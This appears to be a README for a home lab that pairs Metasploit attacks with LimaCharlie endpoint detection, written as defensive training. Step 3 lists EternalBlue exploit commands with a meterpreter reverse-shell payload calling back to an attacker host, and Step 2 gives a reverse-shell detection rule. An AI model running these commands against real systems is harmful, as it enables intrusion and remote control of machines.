 # EDR Home Lab for Attack & Defense Simulation

## Objective
[Brief Objective - Remove this afterwards]

This lab simulates a realistic attack and defense scenario using Metasploit for offensive operations and LimaCharlie for endpoint detection and response (EDR). It is designed to provide hands-on experience in attack simulation, threat detection, and incident response.

### Skills Learned
[Bullet Points - Remove this afterwards]

- Installing and configuring the LimaCharlie agent on endpoints.
- Writing and deploying custom detection rules based on MITRE ATT&CK techniques.
- Monitoring endpoint activity (e.g., process creation, network connections, file system changes) using LimaCharlie’s dashboard.
- Using LimaCharlie to respond to threats (e.g., isolating an endpoint, terminating malicious processes).
- Utilizing Metasploit for penetration testing and attack simulation.
- Identifying and interpreting malicious activity through logs and telemetry.
- Using LimaCharlie to contain threats by isolating infected endpoints.
- Documenting and reporting findings to improve defensive strategies.
- Analyzing attack simulations and documenting responses.
- Problem-solving and troubleshooting during environment setup or attack execution.


### Tools Used
[Bullet Points - Remove this afterwards]

- Metasploit Framework: To simulate cyberattacks.
- LimaCharlie: For EDR capabilities such as telemetry, rule-based detections, and incident response.
- VirtualBox/VMware: To create isolated virtual environments.
- Kali Linux: The attacker machine. -Windows 10 VM: The target endpoint with a LimaCharlie agent installed.
- MITRE ATT&CK Framework: To map attack techniques for defense strategies.

## Steps
Step 1: 
Create the Environment Why: A controlled environment ensures safe experimentation.
Steps:
Install VirtualBox or VMware. Create a VM for Kali Linux (attacker machine). Create a VM for Windows 10 (target machine). Allocate at least 2GB RAM and 20GB storage. Install LimaCharlie agent on the Windows VM. Follow LimaCharlie’s agent installation guide. Skills Learned:
Setting up and managing virtual machines. Configuring an EDR agent on endpoints. Step 2: Configure LimaCharlie Why: To monitor the target system’s activities and test detections.
Steps:
Sign up for a free LimaCharlie account. Add the Windows VM as an endpoint. Create detection rules (e.g., for reverse shell or privilege escalation). Example Rule: yaml Copy code name: "Detect Reverse Shell" detection: queries: - evt.type == "new_process" and process.command_line contains "powershell.exe" response:
tag_alert
isolate Skills Learned:
Configuring detection rules based on suspicious behaviors. Managing EDR platforms. Attack Simulation Step 3: Simulate an Attack with Metasploit Why: To replicate a real-world attack scenario and evaluate the defense system.
Steps:
Launch Metasploit on the Kali Linux VM. Use the EternalBlue exploit to target the Windows VM: Command: bash Copy code use exploit/windows/smb/ms17_010_eternalblue set RHOST [Windows VM IP] set PAYLOAD windows/meterpreter/reverse_tcp set LHOST [Kali Linux IP] set LPORT 4444 exploit Observe the behavior on the Windows VM (a reverse shell should be established). Skills Learned:
Using Metasploit to simulate attacks. Understanding exploit mechanisms. Ref 1: Network Diagram

